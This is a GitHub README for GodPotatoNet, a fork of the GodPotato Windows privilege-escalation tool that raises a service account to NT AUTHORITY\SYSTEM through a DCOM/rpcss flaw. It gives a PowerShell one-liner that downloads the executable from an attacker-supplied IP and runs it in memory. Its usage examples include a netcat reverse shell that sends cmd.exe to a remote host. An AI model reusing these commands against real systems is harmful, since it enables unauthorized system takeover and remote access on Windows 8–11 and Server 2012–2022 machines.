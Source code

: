 # GodPotatoNet

> [!IMPORTANT]  
> This project is now DEPRECRATED, and has been succeeded by my [SigmaPotato](https://github.comt/tylerdotrar/SigmaPotato) project.

This fork of [GodPotato](https://github.com/BeichenDream/GodPotato) aims to expand upon the usability of BeichenDream's hard work.

![HelpMessage](https://cdn.discordapp.com/attachments/855920119292362802/1110988288031993917/image.png)

The predominant functionality I wanted to add was support for C# reflection, while refining some general usage.

```powershell
# C# Reflection in PowerShell
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/GodPotatoNet.exe"))
[GodPotatoNet.Program]::Main(@('-cmd','<command>'))
```

**Current Status:**
- Initial support for C# reflection. (``v1.0.0``)
- Refined help message. (``v1.0.0``)
- Refine argument input so calling from memory is more intuitive. (``WIP``)
- Fix (assumptive) thread handling issue present ONLY when calling from memory. (``WIP``)

**Known Bugs:**
- When called from memory, privilege escalation is only successful on the first execution -- every following attempt fails to impersonate the security context token.  Currently the only fix is to load ``GodPotatoNet`` into a new terminal session.

**Affected Windows Versions:**
- Windows Server 2012 - Windows Server 2022
- Windows 8 - Windows 11


### Original GodPotato
---

Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.


Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato

**Examples:**

Use the program's built-in Clsid for privilege escalation and execute a simple command

```
GodPotato -cmd "cmd /c whoami"
```

![](images/1.png)

Customize Clsid and execute commands

```
GodPotato -cmd "cmd /c whoami"
```

![](images/2.png)

Execute reverse shell commands

```
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
### Thanks

- zcgonvh
- skay

### License

[Apache License 2.0](/LICENSE)
